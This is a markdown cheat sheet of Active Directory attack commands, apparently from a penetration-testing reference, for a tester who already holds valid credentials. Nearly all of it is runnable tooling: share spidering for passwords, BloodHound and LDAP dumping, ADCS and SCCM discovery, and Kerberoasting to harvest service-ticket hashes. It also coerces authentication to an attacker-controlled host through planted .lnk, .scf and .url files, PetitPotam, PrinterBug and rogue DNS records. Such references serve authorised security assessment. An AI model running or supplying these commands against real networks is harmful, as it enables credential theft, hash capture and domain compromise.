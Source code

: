 ```yaml
---
title: "Valid Credentials (cleartext creds, nt hash, kerberos ticket)"
description: "Valid Credentials (cleartext creds, nt hash, kerberos ticket) techniques and commands for Active Directory security assessment."
---
```

# Valid Credentials (cleartext creds, nt hash, kerberos ticket)
## Classic Enumeration (users, shares, ACL, delegation, ...)

- Find all users *Username*{: .highlight}
  - `GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>`
  - `nxc smb <dc_ip> -u '<user>' -p '<password>' --users`
- Enumerate SMB share *Scroll shares*{: .highlight}
  - `nxc smb <ip_range> -u '<user>' -p '<password>' -M spider_plus`
  - `nxc smb <ip_range> -u '<user>' -p '<password>' --shares [--get-file \\<filename> <filename>] `
  - `manspider <ip_range> -c passw -e <file extensions> -d <domain> -u <user> -p <password>`
- Bloodhound Legacy *ACL || Delegation || Username*{: .highlight}
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z`
  - `import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>`
  - `sharphound.exe -c all -d <domain>`
- Bloodhound CE *ACL || Delegation || Username*{: .highlight}
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound-ce -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z --ldap-filter=(objectGuid=*)`
  - `sharphound.exe -c all -d <domain>`
  - `SOAPHound.exe -c c:\temp\cache.txt --bhdump -o c:\temp\bloodhound-output --autosplit --threshold 900`
- Enumerate Ldap *ACL || Delegation || Username*{: .highlight}
  - `ldeep ldap -u <users> -p '<password>' -d <domain> -s ldap://<dc_ip> all <backup_folder>`
  - `ldapdomaindump.py -u <user> -p <password> -o <dump_folder> ldap://<dc_ip>:389`
  - `ldapsearch-ad.py -l <dc_ip> -d <domain> -u <user> -p '<password>' -o <output.log> -t all`
- Enumerate DNS *New targets (low hanging fruit)*{: .highlight}
  - `adidnsdump -u <domain>\\<user> -p "<password>" --print-zones <dc_ip>`

## Enumerate ADCS *ADCS Exploitation*{: .highlight}
- `certify.exe find`
- `certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc_ip>`

## Enumerate SCCM *SCCM Exploitation*{: .highlight}
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `SharpSCCM.exe local site-info`

## Scan Auto
- from BH result
  - `AD-miner -c -cf Report -u <neo4j_username> -p <neo4j_password>`
- `PingCastle.exe --healthcheck --server <domain>`
- `Import-Module .\adPEAS.ps1; Invoke-adPEAS -Domain '<domain>' -Server '<dc_fqdn>'`

## Kerberoasting *Hash TGS*{: .highlight}
- `MATCH (u:User) WHERE u.hasspn=true AND u.enabled = true AND NOT u.objectid ENDS WITH '-502' AND NOT COALESCE(u.gmsa, false) = true AND NOT COALESCE(u.msa, false) = true RETURN u`
- `GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>`
- `Rubeus.exe kerberoast`

## Coerce
- Drop file
  - .lnk
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M slinky -o NAME=<filename> SERVER=<attacker_ip>`
  - .scf
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M sucffy -o NAME=<filename> SERVER=<attacker_ip>`
  - .url
    - `[InternetShortcut]... IconFile=\\<attacker_ip>\%USERNAME%.icon`
  - Other files
    - `ntlm_theft.py -g all -s <your_ip> -f test`
- Webdav
  - Enable webclient
    - .searchConnector-ms
      - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M drop-sc`
  - add attack computer in dns
    - `dnstool.py -u <domain>\<user> -p <pass> --record <attack_name> --action add --data <ip_attacker> <dc_ip>`
  - Launch coerce with <attacker_hostname>@80/x as target *HTTP Coerce*{: .highlight}
- RPC call *SMB NTLM Coerce*{: .highlight}
  - `printerbug.py <domain>/<username>:<password>@<printer_ip> <listener_ip>`
  - `petitpotam.py -d <domain> -u <user> -p <password> <listnerer_ip> <target_ip>`
  - `coercer.py -d <domain> -u <user> -p <password> -t <target> -l <attacker_ip>`
- Coerce kerberos *SMB Kerberos coerce*{: .highlight}
  - `dnstool.py -u "<domain>\<user>" -p '<password>' -d "<attacker_ip>" --action add "<dns_server_ip>" -r "<servername>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp`
    - `petitpotam.py -u '<user>' -p '<password>' -d <domain> '<servername>1UWh...' <target>`

## Intra ID Connect
- Find MSOL
  - `nxc ldap <dc_ip> -u '<user>' -p '<password>' -M get-desc-users |grep -i MSOL`

## Can Connect to a computer *Lateral move*{: .highlight}

## Exploit *know vulnerabilities*{: .highlight}